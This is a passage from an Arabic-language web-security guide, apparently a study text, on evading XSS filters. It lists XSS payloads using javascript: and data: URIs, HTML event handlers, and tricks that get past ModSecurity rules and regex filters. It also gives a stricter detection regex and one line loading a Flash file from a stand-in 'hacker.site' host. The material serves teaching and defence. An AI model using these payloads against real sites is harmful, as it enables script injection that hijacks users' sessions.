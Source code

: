##### **4.2.1.2: قواعد ModSecurity لعلامة `<script>`**
يستخدم ModSecurity، وهو جدار حماية شائع، قواعد لمنع علامات `<script>` (رابط القاعدة: https://github.com/SpiderLabs/owasp-modsecurity-crs/blob/master/base_rules/modsecurity_crs_41_xss_attacks.conf). لكن هذه القواعد ليست شاملة، حيث يمكن استخدام طرق أخرى لتنفيذ الأكواد دون الاعتماد على `<script>`.

##### **4.2.1.3: استخدام خصائص HTML (بدون `<script>`)**
يمكن تنفيذ JavaScript باستخدام خصائص HTML بدلاً من `<script>`، مثل:
- `<a href="javascript:alert(1)">show</a>`: يستخدم بروتوكول `javascript:` في رابط.
- `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>`: يشفر السكربت بـ Base64 باستخدام `data:`.
- `<form action="javascript:alert(1)"><button>send</button></form>`: ينفذ JavaScript عبر خاصية `action` في النموذج.
- `<object data="javascript:alert(1)">` أو `<object data="data:text/html,<script>alert(1)</script>">`: يستخدم علامة `object`.
- `<embed code="//hacker.site/xss.swf" allowscriptaccess=always>`: ينفذ ملف Flash خبيث (رابط: https://github.com/evilcos/xss.swf).

##### **4.2.1.4: HTML**  استخدام أحداث  {  #XSS--ALL--Event--Payload /  #XSS_unique_tags  }
أحداث HTML (مثل `onload`، `onerror`) هي طريقة أخرى لتنفيذ JavaScript. تبدأ هذه الأحداث عادةً بـ `on` متبوعة باسم الحدث. أمثلة تشمل:
- **علامات HTML 4**:
  - `<body onload=alert(1)>`: ينفذ عند تحميل الصفحة.
  - `<img src=x onerror=alert(1)>`: ينفذ عند فشل تحميل الصورة.
  - `<input type=image src=x:x onerror=alert(1)>`: يستخدم مصدر صورة غير صالح.
  - `<isindex onmouseover="alert(1)">`: ينفذ عند تمرير الفأرة.
  - `<form oninput=alert(1)><input></form>`: ينفذ عند تغيير إدخال النموذج.
  - `<textarea autofocus onfocus=alert(1)>`: ينفذ عند تركيز المستخدم على النص.
  - `<input oncut=alert(1)>`: ينفذ عند قص النص.
- **علامات HTML 5**:
  - `<svg onload=alert(1)>`: ينفذ عند تحميل عنصر SVG.
  - `<keygen autofocus onfocus=alert(1)>`: ينفذ عند تركيز المستخدم على `keygen`.
  - `<video><source onerror="alert(1)">`: ينفذ عند فشل مصدر الفيديو.
  - `<marquee onstart=alert(1)>`: ينفذ عند بدء الرسوم المتحركة.

لحظر هذه الأحداث، تستخدم المرشحات تعبيرًا مثل `(on\w+\s*=)`. لكن يمكن تجاوزها باستخدام:
- `<svg/onload=alert(1)>`: إضافة شرطة مائلة.
- `<svg//////onload=alert(1)>`: إضافة عدة شرطات.
- `<svg id=x;onload=alert(1)>`: إضافة خصائص إضافية.
- `<svg id=`x`onload=alert(1)>`: استخدام علامات الاقتباس العكسية.

بعض المتصفحات تسمح بأحرف تحكم (مثل Tab `0x09`، Space `0x20`) بين اسم الحدث وعلامة `=`. يتم سرد الأحرف المسموح بها حسب المتصفح (مثل Chrome يسمح بـ `0x09`، `0x20`، إلخ). يُشار أيضًا إلى أداة Shazzer Fuzz DB لاختبار الأحرف المسموح بها (رابط: http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name و http://shazzer.co.uk/vector/Characters-allowed-before-attribute-name).

يُقترح تعبيرًا أكثر صرامة لحظر الأحداث: 
`(?i)([\s\"'`;\/0-9\=\x00\x09\0A\x0B\x0C\0x0D\x3B\x2C\x28\x3B]+on\w+[\s\x00\x09\0A\x0B\x0C\0x0D\x3B\x2C\x28\x3B]*?=)`.

#### **4.2.2: مرشحات الكلمات المفتاحية** { #ideas_for_url / #XSS_with_out_alret / #XSS_DOM  / #XSS_Obfuscation_payloads  }
تستهدف هذه المرشحات كلمات مثل `alert`، `javascript`، أو `eval`. يمكن تجاوزها باستخدام تقنيات التشفير أو التمويه.
